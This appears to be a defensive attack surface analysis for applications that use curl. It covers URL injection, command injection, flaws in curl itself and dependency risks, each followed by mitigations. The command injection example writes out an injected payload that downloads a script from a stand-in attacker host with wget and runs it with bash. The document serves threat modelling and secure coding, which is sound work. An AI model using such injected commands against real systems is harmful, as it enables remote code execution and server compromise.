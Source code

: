 # Attack Surface Analysis for curl/curl

## Attack Surface: [URL Injection/Manipulation](./attack_surfaces/url_injectionmanipulation.md)

**Description:** An attacker can influence the URL that `curl` requests by injecting malicious characters or URLs into the application's logic that constructs the URL.

**How curl contributes to the attack surface:** The application uses `curl` to fetch resources based on URLs, making it vulnerable if these URLs are not properly sanitized. `curl` will attempt to access whatever URL it is given.

**Example:** An application takes a user-provided website name and appends a fixed path to download a file. If the user inputs `"; attacker.com"` and the application naively constructs the URL, `curl` might attempt to access `https://; attacker.com/file`.

**Impact:**  The application could make requests to unintended servers, potentially leaking internal data, performing actions on behalf of the attacker on other systems, or being redirected to malicious content.

**Risk Severity:** High

**Mitigation Strategies:**
* **Input Sanitization:**  Thoroughly sanitize and validate all user-provided input or external data used to construct URLs *before* passing them to `curl`. Use allow-lists or regular expressions to ensure the input conforms to expected patterns.
* **URL Encoding:** Properly URL-encode all dynamic parts of the URL to prevent interpretation of special characters by `curl`.
* **Restrict Allowed URLs:** If possible, limit the domains or paths that the application is allowed to access via `curl`.

## Attack Surface: [Command Injection (when using command-line `curl`)](./attack_surfaces/command_injection_(when_using_command-line_`curl`).md)

**Description:** If the application uses system calls to execute the `curl` command-line tool and constructs the command string with unsanitized input, an attacker can inject arbitrary commands.

**How curl contributes to the attack surface:**  The application's choice to interact with `curl` as an external command opens the door to command injection if the command string passed to the system shell is not carefully constructed.

**Example:** An application allows users to specify download options, and these options are directly inserted into a `curl` command executed using `system()`. A malicious user could input `--output /tmp/evil.sh; wget attacker.com/payload.sh -O /tmp/evil.sh; bash /tmp/evil.sh` to execute arbitrary code on the server.

**Impact:**  Complete compromise of the server, allowing the attacker to execute arbitrary commands, install malware, steal data, or disrupt services.

**Risk Severity:** Critical

**Mitigation Strategies:**
* **Avoid Command-Line Execution:**  Prefer using the libcurl API directly instead of executing the `curl` command-line tool. This eliminates the risk of command injection.
* **Strict Input Sanitization:** If command-line execution is unavoidable, rigorously sanitize and validate all input used to construct the command string. Use escaping techniques specific to the shell environment.
* **Parameterization:**  If the system allows, use parameterized command execution to separate commands from data.

## Attack Surface: [Vulnerabilities in the `curl` Library Itself](./attack_surfaces/vulnerabilities_in_the_`curl`_library_itself.md)

**Description:**  Like any software, `curl` can have inherent vulnerabilities (e.g., buffer overflows, integer overflows, logic errors) that could be exploited when processing data or handling protocols.

**How curl contributes to the attack surface:**  The application directly depends on the security of the `curl` library. Vulnerabilities within `curl`'s code can be triggered by interacting with malicious servers or data, directly impacting the application.

**Example:** A buffer overflow vulnerability in `curl`'s HTTP header parsing could be triggered by a specially crafted server response received by `curl`, potentially leading to a crash or even remote code execution within the application's process.

**Impact:**  Wide range of impacts, from denial of service and information disclosure to remote code execution, depending on the nature of the vulnerability.

**Risk Severity:** Medium to Critical (depending on the specific vulnerability)

**Mitigation Strategies:**
* **Keep curl Updated:**  Crucially important to regularly update `curl` to patch known security flaws.
* **Static Analysis:** Use static analysis tools to scan the application's code for potential misuse of the `curl` API that could exacerbate existing `curl` vulnerabilities.

## Attack Surface: [Dependency Vulnerabilities](./attack_surfaces/dependency_vulnerabilities.md)

**Description:** `curl` relies on other libraries (e.g., OpenSSL, libnghttp2). Vulnerabilities in these dependencies can indirectly affect the security of the application using `curl`.

**How curl contributes to the attack surface:** The application's reliance on `curl` introduces a transitive dependency on the security of `curl`'s own dependencies. Vulnerabilities in these dependencies can be exploited through `curl`'s usage of them.

**Example:** A critical vulnerability in OpenSSL could be exploited through `curl` if the application uses a vulnerable version of `curl` linked against that version of OpenSSL, especially when handling HTTPS connections.

**Impact:**  The impact depends on the specific vulnerability in the dependency, but could range from denial of service to remote code execution.

**Risk Severity:** Medium to Critical (depending on the dependency vulnerability)

**Mitigation Strategies:**
* **Keep curl Updated:** Updating `curl` often includes updates to its dependencies.
* **Dependency Scanning:** Use dependency scanning tools to identify known vulnerabilities in the `curl` library and its dependencies.

